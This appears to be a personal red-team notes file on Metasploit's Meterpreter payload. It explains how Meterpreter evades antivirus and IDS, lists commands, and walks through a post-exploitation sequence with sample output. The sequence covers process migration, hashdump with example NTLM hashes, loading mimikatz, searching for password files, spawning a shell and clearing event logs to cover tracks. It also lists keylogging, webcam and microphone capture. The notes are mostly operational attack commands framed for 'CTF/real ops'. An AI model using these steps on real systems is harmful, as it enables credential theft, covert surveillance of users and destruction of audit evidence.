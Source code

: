 
```
date: 2025-09-17
author: Sameer Saini  
reason: 0x45
title: Meterpreter Notes
tags: [meterpreter, metasploit, post-exploitation, red-team]
```

---

## How Meterpreter Works

- **In-memory execution** → Does not touch the disk, reducing AV detection.  
- **Encrypted communication** → Uses TLS/SSL or other secure channels to evade IDS/IPS.  
- **Modular** → Extensions can be dynamically loaded (e.g., `priv`, `stdapi`, `kiwi`).  
- **Flexible transports** → Supports reverse TCP, reverse HTTP/S, staged or stageless payloads.  

Your decision on which Meterpreter to use depends on:
1. **Target OS** → Windows, Linux, macOS, Android.  
2. **Available components** → Python/Java/PHP present?  
3. **Network conditions** → TCP vs HTTPS reverse shell, IPv4 vs IPv6 stealth.  

---

## Meterpreter Commands

### 🔹 Core Commands
- `background` → Background the session  
- `exit` → Close session  
- `migrate` → Move Meterpreter to a stable process (e.g., `explorer.exe`)  
- `sessions -i <id>` → Switch between sessions  

---

### 🔹 File System
- `ls`, `cd`, `pwd` → Navigate target’s filesystem  
- `download secret.txt` → Download files  
- `upload backdoor.exe` → Upload files  
- `search -f *.docx` → Search for sensitive files  

---

### 🔹 Networking
- `ifconfig` / `ipconfig` → View network interfaces  
- `netstat` → View active connections  
- `portfwd add -l 8080 -p 80 -r 10.0.0.5` → Forward local port 8080 to target’s port 80  
- `arp` → View ARP cache (can reveal other targets on LAN)  

---

### 🔹 System
- `sysinfo` → OS + hostname info  
- `getuid` → Current user context  
- `ps` → List processes  
- `kill <pid>` → Kill a process  
- `reboot` / `shutdown` → Restart/turn off target  

---

### 🔹 Privilege & Credential Stuff
- `getsystem` → Try privilege escalation to SYSTEM  
- `hashdump` → Dump SAM hashes  
- `load kiwi` → Load mimikatz module for credential extraction  
- `clearev` → Clear event logs (cover tracks)  

---

### 🔹 Monitoring & Surveillance
- `screenshare` → Watch live desktop  
- `screenshot` → Capture desktop  
- `record_mic -d 10` → Record 10 sec from microphone  
- `webcam_snap` → Take webcam picture  
- `keyscan_start` / `keyscan_dump` / `keyscan_stop` → Capture keystrokes  

---

## 🔥 Post-Exploitation Workflow (with Examples)

1. **Identify User Context**
   ```bash
   meterpreter > getuid
   Server username: WIN-LAB\victim
```

→ Confirms what privileges we have. If it’s not SYSTEM, attempt privilege escalation.

---

2. **Process Enumeration**
    
    ```bash
    meterpreter > ps
    PID   Name              Arch  Session  User
    1120  explorer.exe      x64   1        WIN-LAB\victim
    1337  lsass.exe         x64   0        NT AUTHORITY\SYSTEM
    ```
    
    → Shows running processes. Target `explorer.exe` for stability or `lsass.exe` for creds.
    

---

3. **Migrate to Stable Process**
    
    ```bash
    meterpreter > migrate 1120
    [*] Migrating from 1050 to 1120...
    [*] Migration completed successfully.
    ```
    
    → Moves Meterpreter to `explorer.exe` to avoid crashes.
    

---

4. **Dump Password Hashes**
    
    ```bash
    meterpreter > hashdump
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    victim:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
    ```
    
    → Hashes can be cracked offline or passed for lateral movement.
    

---

5. **Search for Sensitive Files**
    
    ```bash
    meterpreter > search -f *passwords*.txt
    Found: C:\Users\victim\Desktop\passwords.txt
    ```
    
    → Look for config files, documents, credentials.
    

---

6. **Spawn a Shell**
    
    ```bash
    meterpreter > shell
    C:\Users\victim> whoami
    win-lab\victim
    ```
    
    → Drops into system command shell for native commands.
    

---

7. **Cover Tracks**
    
    ```bash
    meterpreter > clearev
    ```
    
    → Clear Windows event logs after finishing.
    

---

✅ **Post-exploitation flow in CTF/real ops** →  
`getuid → ps → migrate → sysinfo → hashdump → search → shell → cover tracks`

---
